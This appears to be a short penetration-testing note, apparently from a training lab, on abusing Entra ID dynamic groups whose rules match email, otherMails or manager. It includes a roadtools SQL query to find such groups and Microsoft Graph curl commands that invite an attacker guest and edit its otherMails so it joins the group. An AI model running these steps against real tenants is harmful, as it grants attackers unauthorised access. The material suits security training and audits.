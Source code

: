 ```yaml
---
title: Dynamic Groups
---
```


Users and devices are automatically added and removed from Dynamic Groups based on their properties.
Rules based on the properties *email*, *otherMails* and *manager* are insecure, because by default any user can invite a guest with a email address that matches the rule and users can edit the other two properties on their own.

You can list insecure dynamic groups and their membership rules in [[notes/tools/roadtools]].

~~~ sql
SELECT description, displayName, membershipRule  FROM Groups WHERE groupTypes LIKE '%DynamicMembership%' AND (membershipRule LIKE '%user.email%' OR membershipRule LIKE '%user.manager%' OR membershipRule LIKE '%user.otherMails%');
~~~

Invite attacker as guest into the tenant.

~~~ bash
curl -sSf 'https://graph.microsoft.com/v1.0/invitations' -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" -d '{"invitedUserEmailAddress":"student57@defcorpextcontractors.onmicrosoft.com","inviteRedirectUrl":"https://example.com"}' | jq -r .inviteRedeemUrl
~~~

Login as attacker and accept the invite by opening the invite redeem URL in the browser.

As attacker add an email address to your profile that satisfies the dynamic rule.

~~~ bash
curl -sSf 'https://graph.microsoft.com/v1.0/me' -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" -X PATCH -d '{"otherMails":["vendor57@defcorpextcontractors.onmicrosoft.com"]}'
curl -sSf 'https://graph.microsoft.com/v1.0/me?$select=otherMails' -H 'Content-Type: application/json' -H "Authorization: Bearer $msgraph_token" | jq
~~~

Wait 5 to 10 minutes, then the attacker user will be member of the dynamic group.

